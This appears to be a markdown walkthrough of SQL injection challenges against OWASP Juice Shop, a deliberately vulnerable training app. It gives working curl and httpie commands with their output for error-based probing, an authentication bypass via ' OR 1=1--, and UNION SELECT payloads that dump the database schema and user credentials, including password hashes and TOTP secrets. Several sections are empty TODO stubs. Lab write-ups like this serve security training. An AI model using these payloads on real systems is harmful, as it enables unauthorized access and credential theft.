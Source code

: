 # Injection

Resources

* [SQL injection](https://portswigger.net/web-security/sql-injection)

## Reconnaissance

Intercept all requests and look for a request with parameters to fuzz
```bash
# verify vulnerability
curl -sS -H "Accept: application/json" "http://juiceshop:3000/rest/products/search?q=foo';" | jq
# output
{
  "error": {
    "message": "SQLITE_ERROR: near \";\": syntax error",
    "stack": "Error: SQLITE_ERROR: near \";\": syntax error",
    "errno": 1,
    "code": "SQLITE_ERROR",
    "sql": "SELECT * FROM Products WHERE ((name LIKE '%foo';%' OR description LIKE '%foo';%') AND deletedAt IS NULL) ORDER BY name"
  }
}
```

## Order the Christmas special offer of 2014

```bash
# find ProductId=10
curl -sS -H "Accept: application/json" "http://juiceshop:3000/rest/products/search?q=2014%'+AND+deletedAt+IS+NOT+NULL));--" | jq

TOKEN=<REDACTED>

curl http://juiceshop:3000/api/BasketItems/ \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer ${TOKEN}" \
  --data-raw '{"ProductId":10,"BasketId":"6","quantity":1}'
```

## Exfiltrate the entire DB schema definition via SQL Injection

```bash
# Products table has 9 columns, add N static columns in order to match them and fix
# "SQLITE_ERROR: SELECTs to the left and right of UNION do not have the same number of result columns"
curl -sS -H "Accept: application/json" "http://juiceshop:3000/rest/products/search?q=foo%'))+UNION+SELECT+name,sql,'a','b','c','d','e','f','g'+FROM+sqlite_master+WHERE+type='table';--" | jq '.data | map({"id":.id,"name":.name})'
```

## Log in with the (non-existing) accountant without ever registering that user

```bash
# trigger error
http http://juiceshop:3000/rest/user/login email=\' password=foo
# output
{
    "error": {
        "message": "SQLITE_ERROR: near \"acbd18db4cc2f85cedef654fccc4a4d8\": syntax error",
        "name": "SequelizeDatabaseError",
        "original": {
            "code": "SQLITE_ERROR",
            "errno": 1,
            "sql": "SELECT * FROM Users WHERE email = ''' AND password = 'acbd18db4cc2f85cedef654fccc4a4d8' AND deletedAt IS NULL"
        },
        "parameters": {},
        "parent": {
            "code": "SQLITE_ERROR",
            "errno": 1,
            "sql": "SELECT * FROM Users WHERE email = ''' AND password = 'acbd18db4cc2f85cedef654fccc4a4d8' AND deletedAt IS NULL"
        },
        "sql": "SELECT * FROM Users WHERE email = ''' AND password = 'acbd18db4cc2f85cedef654fccc4a4d8' AND deletedAt IS NULL",
        "stack": "Error\n    at Database.<anonymous> (/juice-shop/node_modules/sequelize/lib/dialects/sqlite/query.js:185:27)\n    at /juice-shop/node_modules/sequelize/lib/dialects/sqlite/query.js:183:50\n    at new Promise (<anonymous>)\n    at Query.run (/juice-shop/node_modules/sequelize/lib/dialects/sqlite/query.js:183:12)\n    at /juice-shop/node_modules/sequelize/lib/sequelize.js:315:28\n    at process.processTicksAndRejections (node:internal/process/task_queues:95:5)"
    }
}

http http://juiceshop:3000/rest/user/login email="acc0unt4nt@juice-sh.op' OR 1=1--"
```

## Log in with the administrator's user account

```bash
TODO
```

## Log in with Bender's user account

```bash
TODO
```

## Log in with Jim's user account

```bash
TODO
```

## Let the server sleep for some time

```bash
TODO
```

## All your orders are belong to us

```bash
TODO
```

## Update multiple product reviews at the same time

```bash
TODO
```

## Infect the server with juicy malware by abusing arbitrary command execution

```bash
TODO
```

## Retrieve a list of all user credentials via SQL Injection

```bash
curl -sS -H "Accept: application/json" "http://juiceshop:3000/rest/products/search?q=foo%'))+UNION+SELECT+id,username,email,password,role,deluxeToken,totpSecret,isActive,createdAt+FROM+Users;--" | jq '.data'
```
